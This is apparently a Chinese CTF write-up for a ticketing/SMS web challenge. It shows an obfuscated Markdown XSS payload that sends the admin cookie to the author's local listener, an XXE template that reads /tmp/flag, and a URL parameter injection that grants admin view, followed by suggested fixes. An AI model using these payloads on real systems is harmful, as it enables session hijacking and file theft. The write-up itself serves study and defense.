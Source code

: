 # WRITEUP

## 解题过程

### 1、注册账号进入用户界面

![主界面](主界面.png)

### 2、进入工单记录，提交 Markdown XSS

```markdown
![dsa](x"onerror=eval(atob('Yj1kb2N1bWVudC5jb29raWU7YT0iPGltZyBzcmM9aHR0cDovL2xvY2FsaG9zdDo4MjM0LyIrYnRvYShiKSsiPiI7ZG9jdW1lbnQud3JpdGUoYSk7'))%")
```

该 payload 是弹到本地8234端口

### 3、在本地监听8234端口，得到管理员cookie

![cookie](cookie.png)

### 4、利用得到的管理员cookie登陆管理员界面，进入短信设置

![短信](短信.png)

### 5、打开请求手机验证，修改模板为

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
```

### 6、触发发送短信操作，进入管理员后台查看发送记录

![](result.png)




修复点：

- `Ticket.py里TicketCreateHandler.post`，使用更强的过滤（如先md再bleach），不能直接禁用Markdown
- 修复SMS服务器上的XXE注入，关闭实体解析，不能直接删除发短信功能
- （这个漏洞应该都会修…………）



## 解法2 - Python修饰器参数注入

（专门为fixit环节设计）

访问 `http://127.0.0.1:8233/user/2?super_admin_mode=1` 可得管理员flag

![flag2](flag2.png)

原理：

出问题的函数集中在`view/tools.py`，这里存放了常用的辅助函数。当不同修饰器连接时，验证规则不健壮造成对模板逻辑的注入。

template_kwargs_importer用于合并参数字典
![](tools_1.png)

![](tools_2.png)

import_args用于直接将表单导入到函数参数表，方便保存后显示表单保存好的数据，提高用户和编码体验（因为数据已经在命名空间中，直接传给模板引擎即可，不需要再重复写参数列表），例如：

![](import_args.png)

RequestHandler.render被修改，用于向模板系统引入常用变量（比如渲染顶栏菜单时，区分管理员模式）
![](render.png)

render里面`**template_kwargs_importer(modes,kwargs)` 由于合并次序问题，当kwargs有super_admin_mode或customer_service_mode时，会将真正的值覆盖掉，而敏感信息显示与否是交予模板控制的，当以后门的方式加入上述参数，便可以对应权限查看用户敏感信息，造成隐私泄露。



灵感来源： https://blog.csdn.net/cc7756789w/article/details/46635383

修复事项：

- 不能屏蔽userinfo（本来是想由于显示和用户信息界面的，没时间写……）
- 不能修改自带Flag的用户信息（用户隐私都泄露了还不算漏洞么……）
